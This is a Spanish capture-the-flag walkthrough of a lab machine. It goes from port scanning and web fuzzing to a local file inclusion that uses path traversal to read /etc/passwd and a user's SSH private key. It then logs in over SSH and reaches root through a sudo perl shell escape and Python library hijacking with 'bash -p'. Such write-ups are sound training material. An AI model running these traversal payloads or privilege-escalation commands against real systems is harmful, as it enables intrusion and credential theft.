


<p align="center">
    
</p>


Compruebo si está activa
```
ping -c 1 172.17.0.2
```

<p align="center">
    
</p>

---

## Enumeración
### Escaneo de puertos
- Primero hago un reconocimiento de puertos silencioso de los puertos abiertos
```
nmap -p- --open -sS --min-rate 5000 -n -Pn 172.17.0.2
```

<p align="center">
    
</p>

**Resultados del escaneo:**

| Puerto | Estado | Servicio |
| ------ | ------ | -------- |
| 22/tcp | open   | ssh      |
| 80/tcp | open   | http     |


Realizamos un segundo escaneo al puerto abierto, lanzando una serie de script por defecto de `nmap` y reconocimiento de servicios.
```
nmap -p22,80 -sVC --min-rate 5000 -n -Pn 172.17.0.2
```

<p align="center">
    
</p>


| Puerto | Estado | Servicio | Versión                          |
| ------ | ------ | -------- | -------------------------------- |
| 22/tcp | open   | ssh      | OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 |
| 80/tcp | open   | http     | Apache httpd 2.4.58 ((Ubuntu))   |

---


<h3><center> Análisis del servidor web HTTP (puerto 80)</center></h3>

Al introducir la IP como la dirección URL, la web nos muestra lo siguiente:
<p align="center">
    
</p>


Vemos una aplicación web normal, la cual nos puede estar indicando un posible usuario `luisillo`. Si vemos el código fuentre.
```
CTRL + U
```
<p align="center">
    
</p>

Al final del código podemos ver un mensaje de error. Pero como no sabemos que significa, procedemos a realizar `fuzzing web`.


Antes enumeramos las tecnologías con las que está hecha la aplicación web.
```
whatweb http://172.17.0.2
```

<p align="center">
    
</p>

No nos dice mucho.


#### Fuzzing Web

Primero vamos a usar la herramienta `dirb`, que realiza un escaneo rápido.
```
dirb http://172.17.0.2
```

<p align="center">
    
</p>

Nos encuentra un directorio interesante `/assets`, si lo inspeccionamos.
<p align="center">
    
</p>


Sólo vemos la foto del fondo de la página, vamos a hacernos con ella para ver si contiene metadatos que nos puedan dar alguna pista. Por lo que descargamos la imagen.
```
wget http://172.17.0.2/assets/background.jpg
```

<p align="center">
    
</p>


Observamos si podemos encontrar algo en los metadatos de la imagen.
```
exiftool background.jpg
```

<p align="center">
    
</p>


En los metadatos no hay nada interesante, vamos a verificar que no se esté haciendo uso de steganografía para ocultar algo dentro de la fotografía.
```
steghide extract -sf background.jpg
```
```
binwalk -e background.jpg
```

<p align="center">
    
</p>


Vemos que tenemos un directorio en el servidor web, que guarda los recursos o activos de la aplicación web. Como estamos en un punto muerto, porque no sabemos como podemos subir ficheros al servidor web, vamos a buscar si la aplicación web tiene algún fichero realizando `fuzzing web`.
```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,txt,asp,aspx
```

<p align="center">
    
</p>


No nos encuentra nada. Debemos regresar al comienzo y recordemos que nos imprimía un error, también durante el escaneo observamos que él el index es un archivo .PHP así que podemos suponer que está llamando algo de manera incorrecta.


Parece que tampoco hay nada por aquí, y nuestro `fuzzeo` no ha dado ningún resultado más, encontramos la página index.php y lo que podría existir algún parámetro oculto. Por lo que realizamos un `fuzzing` para ver si tenemos algún parámetro oculto  y podemos ejecutar un **LFI**(Local File Inclusion)

**WFUZZ**
```
wfuzz -c -t 200 --hl 62 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/index.php?FUZZ=../../../../../../../etc/passwd"
```

<p align="center">
    
</p>

Y efectivamente tenemos un parámetro llamado `secret`.


**FFUF**
También podemos utilizar la herramienta `ffuf`
```
ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/index.php?FUZZ=key" -fs 2596
```

<p align="center">
    
</p>


Y encuentra el mismo parámetro. Por lo que vamos al navegador y probamos el parámetro para confirmar que hay un **LFI**. Vamos al navegador y ponemos en la URL para poder leer el fichero `/etc/passwd`
```
http://172.17.0.2/index.php?secret=../../../../../../../../etc/passwd
```

<p align="center">
    
</p>


Y en donde estaba localizado el error podemos ver que estamos pudiendo ver el contenido del fichero `/etc/passwd` e identificamos varios usuarios `luisillo`, `vaxei` y `root`. También es un poco complicado verlo, si inspeccionamos el código, veremos que es más legible. 
<p align="center">
    
</p>


Como tenemos una vulnerabilidad **LFI** y tenemos el *SSH* abierto, podemos leer las claves privadas de los usuarios y así obtener acceso. Leemos las contraseñas privadas del usuario `luisillo`.
```
http://172.17.0.2/index.php?secret=../../../../../../../../home/luisillo/.ssh/id_rsa
```

<p align="center">
    
</p>


De `luisillo` no pudimos ver su contraseña `id_rsa`, por lo que lo intentamos con el usuario `vaxei`
```
http://172.17.0.2/index.php?secret=../../../../../../../../home/vaxei/.ssh/id_rsa
```
<p align="center">
    
</p>


Del usuario `vaxei` si pudimos obtener la contraseña privada del fichero `id_rsa`. Guardamos el contenido en un archivo llamado `id_rsa`, para después iniciar sesión por medio del protocolo `SSH` y esta contraseña.
```
nano id_rsa
```

<p align="center">
    
</p>


Le damos los permisos que suelen tener las contraseña `id_rsa` para poder iniciar sesión.
```
chmod 600 id_rsa
```

<p align="center">
    
</p>

---

## Explotación

Teniendo la contraseña privada `id_rsa` y configurada con sus permisos, iniciamos sesión por el protocolo `SSH`.
```
ssh -i id_rsa vaxei@172.17.0.2
```

 <p align="center">
    
</p>

Genial, estamos dentro, vamos a buscar la forma de elevar nuestros privilegios para comprometer el sistema por completo.

---

## Post-Explotación

Antes enumeramos un poco el sistema. Vemos un fichero `file.txt`, que vemos el contenido.
```
cat file.txt
```

<p align="center">
    
</p>

---

### Escalada de privilegios

Y no se a que se refiere el contenido de ese fichero. Por lo que vamos a buscar los binarios que puede ejecutar `vaxei`.
```
sudo -l
```

<p align="center">
    
</p>


Podemos ejecutar el binario `perl` como el usuario `luisillo` siendo el usuario `vaxei`, por lo que podemos pivotar entre usuarios.  Si voy a la web de [GTFObins][https://gtfobins.github.io/] y busco por el binario `perl` y selecciono que lo encontré realizando un `sudo`, me indica que:

<p align="center">
    
</p>

Ejecutando el comando indicado podemos lanzarnos una `bash`. Entonces ejecutamos el comando:
```
sudo -u luisillo /usr/bin/perl -e 'exec "/bin/bash";'
```

<p align="center">
    
</p>

Tenemos acceso y hemos podido pivotar al usuario `luisillo`. Procedemos a ver los binarios para este usuario.
```
sudo -l
```

<p align="center">
    
</p>


Vemos que el usuario `luisillo`, puede ejecutar los binarios `python3` y `paw.py` como cualquier usuario. Si ejecutamos el fichero
```
sudo -u root /usr/bin/python3 /opt/paw.py
```

<p align="center">
    
</p>

Encontramos un error que indica que el archivo `echo Hello!` no se encuentra. Está intentando cargar un subproceso que no existe.


Si vamos a la carpeta `/opt` para ver el binarios `paw.py`. Y vemos el contenido del script
```
cd /opt 
```
```
cat paw.py
```

<p align="center">
    
</p>


Observamos que el script `paw.py` está intentando importar la librería `subprocess`, pero  no la encuentra ya que el subproceso que está ejecutando `subprocess.run(['echo Hello!'], check=True)` no existe. Podemos aprovechar este error para realizar un ataque de **Python Library Hijacking**. 

Creamos un archivo llamado `subprocess.py` en el directorio actual y añadimos el siguiente código para lanzar una shell con privilegios de root.
```
import os
os.system("bash -p")
```

<p align="center">
    
</p>
<p align="center">
    
</p>

Finalmente, ejecutamos el script paw.py nuevamente como root, lo que nos otorga una shell privilegiada.
```
sudo -u root /usr/bin/python3 /opt/paw.py
```

<p align="center">
    
</p>

Logramos ser el usuario `root`.


